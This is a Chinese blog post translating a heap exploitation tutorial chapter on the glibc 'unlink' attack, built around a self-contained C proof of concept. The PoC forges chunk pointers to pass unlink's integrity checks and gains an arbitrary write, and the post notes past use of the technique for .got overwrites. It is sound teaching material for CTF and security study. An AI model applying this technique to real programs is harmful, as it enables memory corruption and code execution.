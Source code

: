 ```yaml
---
title: Heap Exploitation系列翻译-11 Unlink Exploit
time: 2017-08-12
tags: [CTF, pwn, heap]
layout: post
categories: posts
---
```

# Unlink Exploit

> 本文是对Dhaval Kapil的[Heap Exploitation](https://heap-exploitation.dhavalkapil.com/)系列教程的译文

这项攻击技术曾十分常用, 然而之后在`unlink`宏里添加的两项安全检查("corrupted size vs. prev_size")和("corrupted double-linked list")在一定程度上减少了这种攻击. 不过我们依旧值得花时间去掌握这项技术. 该攻击技术利用了在bin中移除堆块时`unlink`宏进行的指针操作发生的漏洞

考虑以下示例代码(下载完整版本: [这里](/files/heap-exploitation/files/unlink_exploit.c) )

```c
struct chunk_structure {
  size_t prev_size;
  size_t size;
  struct chunk_structure *fd;
  struct chunk_structure *bk;
  char buf[10];               // padding
};

unsigned long long *chunk1, *chunk2;
struct chunk_structure *fake_chunk, *chunk2_hdr;
char data[20];

// First grab two chunks (non fast)
chunk1 = malloc(0x80);        // Points to 0xa0e010
chunk2 = malloc(0x80);        // Points to 0xa0e0a0

// Assuming attacker has control over chunk1's contents
// Overflow the heap, override chunk2's header

// First forge a fake chunk starting at chunk1
// Need to setup fd and bk pointers to pass the unlink security check
fake_chunk = (struct chunk_structure *)chunk1;
fake_chunk->fd = (struct chunk_structure *)(&chunk1 - 3); // Ensures P->fd->bk == P
fake_chunk->bk = (struct chunk_structure *)(&chunk1 - 2); // Ensures P->bk->fd == P

// Next modify the header of chunk2 to pass all security checks
chunk2_hdr = (struct chunk_structure *)(chunk2 - 2);
chunk2_hdr->prev_size = 0x80;  // chunk1's data region size
chunk2_hdr->size &= ~1;        // Unsetting prev_in_use bit

// Now, when chunk2 is freed, attacker's fake chunk is 'unlinked'
// This results in chunk1 pointer pointing to chunk1 - 3
// i.e. chunk1[3] now contains chunk1 itself.
// We then make chunk1 point to some victim's data
free(chunk2);

chunk1[3] = (unsigned long long)data;

strcpy(data, "Victim's data");

// Overwrite victim's data using chunk1
chunk1[0] = 0x002164656b636168LL;   // hex for "hacked!"

printf("%s\n", data);         // Prints "hacked!"
```

相比其他攻击, 这看上去可能会有些复杂. 首先我们申请了两个大小为`0x80`的堆块 `chunk1`和 `chunk2`以确保两者都在smallbin范围内. 接下来我们假定攻击者以某种方式无界限地控制`chunk1`的内容(比如说可以使用一些不安全的函数比如`strcpy`来读取用户输入). 要注意, 两个堆块在内存里是紧挨着的. 上面展示的代码使用了一个自定义的结构体`chunk_structure`单纯只是为了清楚的展示而已. 在一个攻击情景中, 攻击者可能只是简单地发送一些数据填充了`chunk1`, 这样也是能达到相同效果的

在`chunk1`的`data`域创建了一个新的伪造堆块. `fd`和`bk`指针经过调整以绕过"corrupted double-linked list"安全检查. 攻击者的输入内容溢出到了`chunk2`的头部并设置了对应的`prev_size`和`prev_in_use`位. 这也确保了一旦`chunk2`被释放, 我们的`fake_chunk`都会被认作为'空闲的'并且将进行`unlink`操作. 下面的图标很好地展示了不同内存区域的当前状态:

![Unlink before call to free](/files/heap-exploitation/images/unlink_before_free.png)

务必要弄明白为什么可以通过`P->fd->bk == P` 和 `P->bk->fd == P`的检查. 这会告诉你如何去调整伪堆块的`fd`和`bk`指针

一旦`chunk2`被释放, 它就会作为small bin被处理. 我们回想一下, prev chunks和next chunks会被检查它们是否被释放. 如果其中任意一个堆块被检查到已释放, 它就会因为合并连续的空闲堆块而进行`unlink`操作. `unlink`宏执行以下两个修改指针的指令:

1. 设置 `P->fd->bk` = `P->bk`.
2. 设置 `P->bk->fd` = `P->fd`.

In this case, both `P->fd->bk` and `P->bk->fd` point to the same location so only the second update is noticed. The following diagram shows the effects of the second update just after `chunk2` is freed.

在这种情形下, `P->fd->bk` 和 `P->bk->fd`都指向相同的地方因此我们只需要注意第二次操作即可. 下面的图标展示了在`chunk2`被释放后第二次操作的影响.

![Unlink after call to free](/files/heap-exploitation/images/unlink_after_free.png)

现在, 我们让`chunk1`在它之后(`&chunk-3`)指向了3个地址(16位). 因此, `chunk1[3]`实际上就是`chunk1`. 改变`chunk1[3]`就是改变`chunk1`. 要注意的是, 一个攻击者很有可能获得机会去更新`chunk1`(`这里是chunk1[3]`)位置的数据, 而非`chunk1`本身. 这样我们完成了这次攻击. 在本例中, `chunk1`用于指向变量'data'并且通过改变`chunk1`从而影响到了该变量

早先, 在缺少`unlink`的安全检查的时候, 那两项`unlink`宏的指令常用语显示任意地址写. 通过覆写`.got`段从而导致任意代码执行
